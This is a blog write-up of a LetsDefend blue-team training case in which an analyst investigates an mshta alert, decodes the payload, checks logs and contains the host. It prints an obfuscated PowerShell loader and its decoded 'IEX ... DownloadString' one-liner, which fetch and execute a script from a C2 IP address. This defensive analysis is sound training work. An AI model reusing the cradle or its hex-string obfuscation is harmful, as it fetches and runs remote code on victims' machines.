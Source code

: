 ```yaml
---
title: write up - suspicious mshta behavior
date: 2022-04-13 18:00:00 Z
categories:
- DFIR
layout: post
author: admin
comments: true
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you will be using some sort of SIEM apps and act as an analyst, i.e. finding IOC and deciding escalation etc. There are not a lot of blue team training site, and this hands on concept by [letsdefend.io](https://letsdefend.io/) is great. 

With that intro about [letsdefend.io](https://letsdefend.io/) out of the way, here goes the write up. 
<!--more-->

![mshta behaviour](/images/wup_ld.png)

This is what the case looked like, basically a host execute hta file thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history/ proccess history at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

We can use the hash we found at the first picture to search scan result at virustotal. The [result on virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection) look pretty bad, 23/58 malicious flag. you could also try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use endpoint security tab to find out what was happening in the host 172.16.17.38. 
The screenshot above is from the command history portion of the tab, where we can see the first command line that trigger the alert, followed by another not so clear command.

```bash 
C:/Windows/System32/mshta.exe C:/Users/roberto/Desktop/Ps1.hta
```

The first command above is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused for execution of the Ps1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Now we tried a bit of magic at the second command so it will be more readable. 

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

* $H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". 
* $H2 was a glorified "New-Object Net.WebClient". 
* $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8. 

Together they'll probably looked like 
```bash 
IEX (New-Object Net.WebClient).DownloadString('http://193.142.58.23/Server.txt').
```

So it's a call to C2 server 193.142.58.23, probably trying to download something.

#### log management

After seeing what the script do, we best check log management and try to see did the host (172.16.17.38) managed to reach the C2 server (193.142.58.23) what the C2 server reply with. We can do this by filtering source/ dest. address using host and/or C2 server IP that we had before. Below is the filtered result of from the log management tabs.

![wup_endpoint](/images/wup_logmgmt.png)

There we can see that the C2 server replied with 404, so no response arrived for the host (172.16.17.38) because the server is dead/ the file was not there.

#### containment and lesson learned

Based on our previous analysis, we can safely conclude that its a malicious script, but stopped due to the C2 server is dead. 
Next step would be to contain the host. We can do this by going to endpoint security and use the request containment button. 

Lastly, we can use the IP address, and URL and also the md5 hash of the executed file can as IOC when we did the playbook and also close the case.



